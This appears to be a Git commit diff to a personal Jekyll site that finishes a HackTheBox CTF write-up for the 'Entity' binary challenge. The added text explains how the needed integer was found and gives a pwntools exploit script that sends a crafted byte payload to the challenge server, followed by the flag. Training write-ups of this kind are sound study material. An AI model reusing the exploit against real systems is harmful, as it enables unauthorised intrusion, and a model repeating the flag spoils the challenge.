

Before and after one commit to shortestllama/shortestllama.github.io, a Jekyll site: the page built from _writeups/entity.md, in a window 1280 px wide and 1400 px high, scrolled down 6826 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update writeup: entity

````diff
--- a/_writeups/entity.md
+++ b/_writeups/entity.md
@@ -38,3 +38,45 @@ This gives me enough new information to formulate a hypothesis and come up with
 ![](/assets/images/writeups/HackTheBox/Entity/just_A.png)
 My experiment begins with running the code again, entering just a single "A" (as I did in gdb) in order to figure out what the integer representation would be according to the program.
 I know there's no funny business since I didn't find any encoding functions or other cryptographic algorithms that might change the string into non-ASCII, so I consult my favorite format conversion website: [RapidTables](https://www.rapidtables.com/convert/number/hex-to-decimal.html?x=A41).
+![](/assets/images/writeups/HackTheBox/Entity/answer.png)
+Instantly I make the discovery that the character I'm entering has a newline character at the end of it and both of those are getting converted to ASCII and printed back out again as decimal.
+I confirm this using gdb:
+![](/assets/images/writeups/HackTheBox/Entity/gdb_answer.png)
+Once I have confirmed my suspicion, I know the answer must be 13371337, so I use RapidTables again to determine my input.
+![](/assets/images/writeups/HackTheBox/Entity/input_for_answer.png)
+My first attempt trying this input is unfruitful due to user error:
+![](/assets/images/writeups/HackTheBox/Entity/gdb_problem.png)
+And then when I try using a script, I get another error:
+![](/assets/images/writeups/HackTheBox/Entity/script_problem.png)
+However, my final script:
+```python
+from pwn import *
+
+#p = process("./entity")
+p = remote("94.237.63.150", 36499)
+
+p.sendline("T")
+p.sendline("S")
+p.sendline(b"\xC9\x07\xCC\x00\x00\x00\x00\x00")
+
+'''
+gdb.attach(p, """
+b *main
+b *get_field+42
+""")
+'''
+
+p.sendline("R")
+p.sendline("L")
+p.sendline("C")
+
+p.interactive()
+```
+proves fruitful:
+![](/assets/images/writeups/HackTheBox/Entity/problem_solution_output.png)
+And thus, the challenge is solved:
+![](/assets/images/writeups/HackTheBox/Entity/final_ans.png)
+# Flag
+```bash
+HTB{th3_3nt1ty_0f_htb00_i5_5t1ll_h3r3}
+```
````
Also changed, not shown: other parts of _writeups/entity.md (+1 -1 lines).
